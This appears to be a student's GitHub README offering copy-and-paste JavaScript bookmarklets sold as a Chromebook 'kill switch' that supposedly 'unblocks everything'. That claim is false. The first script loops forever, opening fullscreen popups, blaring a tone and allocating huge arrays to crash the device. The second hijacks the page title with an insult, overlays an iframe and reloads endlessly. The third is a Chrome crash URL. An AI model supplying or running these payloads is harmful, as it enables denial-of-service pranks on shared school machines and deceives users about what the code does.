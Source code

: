 # KILL-SWICH-CHROMEBOOK 
ok... i was bored at school so i decided to make a kill switch for chrome book it will unblock everything and this will destroy your Chromebook 
this is the first this will make many tabs untill it chrashes your computer/pc.etc... this will work for book marklets too ENJOYY : ) 
FUN WITH SHREK  just copy the link and dont click on the blue link 
-------------------------------------------------
javascript:while(true) {  var a=Math.floor(10000*Math.random()+1),  b=window.open('_blank','Lag'+a,`height=${screen.height},width=${screen.width}`);  au=new AudioContext(); v=au.createOscillator(); u=au.createGain(); v.connect(u); v.frequency.value=130; v.type="square"; u.connect(au.destination); u.gain.value=100*0.01; v.start(au.currentTime); v.stop(au.currentTime+300*0.001);  b.document.body.innerHTML='<script>[...Array(2**32-1)]</script>';}
just copyy and paste it 
---------------------------------------------------------------------
{2}
this will.... welll... lets just say no more computer! HAHAHAHHALOLOLOLOLLLOLL
------------------------------------------------------------------------------------
javascript:function gcloak() { var link = document.querySelector("link[rel*='icon']") || document.createElement('link');link.type = 'image/x-icon';link.rel = 'shortcut icon';link.href = 'https://i.ytimg.com/vi/cjZcW3b8LyM/maxresdefault.jpg';document.title = 'Get fucked loser!';console.log(document.title);document.getElementsByTagName('head')[0].appendChild(link) };gcloak();setInterval(gcloak, 1000);((function()%7Bvar a,b,c;c="https://www.icegif.com/wp-content/uploads/icegif-5543.gif",b=document.createElement("iframe"),b.setAttribute("src",c),b.setAttribute("id","rusic-modal"),b.setAttribute("style","position: fixed; z-index: 999999; width: 1500px; height: 750px; right: 10px; top: 10px; border: 5px solid #FFFFFF; overflow: hidden; background-color: #fff;"),a=document.getElementsByTagName("body")%5B0%5D,a.appendChild(b)%7D)).call(this); (function (){ alert('No more computer loser'); })(); setTimeout(function(){ while(1)location.reload(1)}, 1000);
-------------------------------------------------------------------------------------------------------------------------
next is just an easy and harmless little trick just copy and paste this in your search bar!
chrome://inducebrowsercrashforrealz
-------------------------------------------------------------------------------------------------------------------------------- 				
                                          
